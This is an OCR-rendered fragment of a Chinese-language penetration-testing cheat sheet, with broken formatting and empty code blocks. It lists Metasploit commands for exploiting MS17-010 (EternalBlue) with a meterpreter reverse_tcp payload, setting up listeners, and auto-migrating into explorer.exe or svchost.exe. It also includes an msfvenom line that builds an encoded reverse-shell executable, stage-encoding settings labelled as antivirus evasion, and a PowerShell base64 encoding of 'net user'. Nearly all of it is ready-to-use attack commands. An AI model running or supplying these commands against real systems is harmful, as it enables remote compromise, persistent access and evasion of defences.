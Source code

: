 ```
>Powershell "$string="net user";[convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($string))"
```

###   



```

```
**Metasploit**  

```

#### 常规使用

```


### 

```
`#systemctl start postgresql.service 启动数据库服务``#msfdb init 初始化数据库``#msfconsole进入MSF框架``#search  ms17-010 查找攻击模块``#use exploit/windows/smb/ms17_010_eternalblue 使用模块``#set payload windows/x64/meterpreter/reverse_tcp 设置载荷``#info 查看信息``#show options查看需要设置的参数``#set RHOST 192.168.125.138设置参数``#exploit 执行攻击模块``#back 回退`
```






```

#### 技巧使用

```


### 

```
`#handler -H 192.168.0.10 -P 3333 -p windows/x64/meterpreter/reverse_tcp快速监听``#setg 设置全局参数``#set autorunscript migrate –f 自动迁移进程``#set autorunscript migrate -n explorer.exe``#set AutoRunScript post/windows/manage/migrate``#set prependmigrate true 自动注入进程``#set prependmigrateProc svchost.exe``#set exitonsession false获取到session后继续监听，获得多个session``#set stagerverifysslcert false 防止出现ssl错误``#set SessionCommunicationTimeout 0 防止session超时退出``#set SessionExpirationTimeout 0 防止强制关闭session``#exploit -j -z  后台持续监听``>msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=12138 -e x86/shikata_ga_nai -b "x00" -i 5 -a x86 --platform windows PrependMigrate=true PrependMigrateProc=explorer.exe -f exe -o  1.exe 执行后注入到已存在的一个进程``>set EnableStageEncoding true``>set stageencoder x86/fnstenv_mov 编码进行免杀``>set stageencodingfallback false`
```






```

#### **模块**

##### **Auxiliary**

```
